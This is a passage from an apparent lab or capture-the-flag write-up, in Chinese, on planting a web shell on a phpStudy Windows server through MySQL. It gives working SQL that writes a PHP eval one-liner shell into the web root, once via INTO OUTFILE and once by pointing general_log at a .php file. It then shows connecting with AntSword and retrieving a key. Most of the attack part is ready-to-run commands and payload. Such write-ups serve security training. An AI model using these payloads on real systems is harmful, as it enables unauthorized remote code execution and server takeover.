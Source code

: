 ![image.png](https://img.ghostliner.top/q2sXzK.png)

发现目录 `C:\phpStudy\`，猜测网站根目录路径：`C:\phpStudy\WWW\`

#### 5.1.1. 利用 OUTFILE getshell

查看权限

```sql
show global variables like "%priv%";
```

![image.png](https://img.ghostliner.top/39KEb6.png)

`secure_file_priv` 显示为空，说明可在任意处创建文件

```sql
select '<?php echo 123;eval($_REQUEST[a]);?>' into outfile 'c:/phpstudy/www/shell.php';
-- 不能写成 'c:\phpstudy\www\shell.php'
```

![image.png](https://img.ghostliner.top/OFTgwB.png)

蚁剑连接，配置认证头

![image.png](https://img.ghostliner.top/z9Pxt4.png)

连接成功

![image.png](https://img.ghostliner.top/T3btSl.png)

### 5.2. 利用日志 getshell

**原理**：MySQL 的 general_log、slow_log 可以记录 SQL 语句到文件。通过设置日志路径到 Web 目录，就能写 PHP 代码。

**利用场景**：当没有权限使用 OUTFILE 时可利用 MySQL 日志文件 getshell

查看日志状态：

```sql
show global variables like '%log%';
```

![image.png](https://img.ghostliner.top/Sg6Cqa.png)

修改日志配置：

```sql
set global general_log="ON";
set global general_log_file="c:/phpstudy/www/shell_log.php";
```

![image.png](https://img.ghostliner.top/H9aeWj.png)

*注：除了使用命令操作，也可使用可视化界面进行修改。*

注入一句话木马：

```sql
select '<?php echo 123;eval($_REQUEST[a]);?>';
-- 关闭日志记录
set global general_log="OFF";
```

访问成功：

![image.png548](https://img.ghostliner.top/UmFrQX.png)

蚁剑连接后获取 key

